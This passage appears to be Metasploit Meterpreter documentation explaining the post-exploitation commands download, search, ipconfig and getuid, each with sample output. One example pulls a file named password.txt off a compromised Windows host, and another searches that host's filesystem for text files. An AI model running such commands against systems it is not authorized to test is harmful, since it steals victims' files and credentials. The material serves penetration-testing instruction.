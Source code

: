 ```
meterpreter > download C:\\Users\\sinn3r\\Desktop\\password.txt
[*] downloading: C:\Users\sinn3r\Desktop\password.txt -> password.txt
[*] download   : C:\Users\sinn3r\Desktop\password.txt -> password.txt
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example, this
demonstrates how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 1 result...
    .\password.txt (11 bytes)
```

Note that without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the commands allows you to search recursively.

**ifconfig/ipconfig command**

The ```ifconfig``` command displays the network interfaces on the remote machine:

```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 2
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:eb:33:d9
MTU          : 1500
IPv4 Address : 172.16.23.185
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::5911:c25:bd50:5a6d
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > 
```
The command ```ipconfig``` is an alias for ```ifconfig```.

**getuid command**

The ```getuid``` command shows you the current user that the payload is running as:
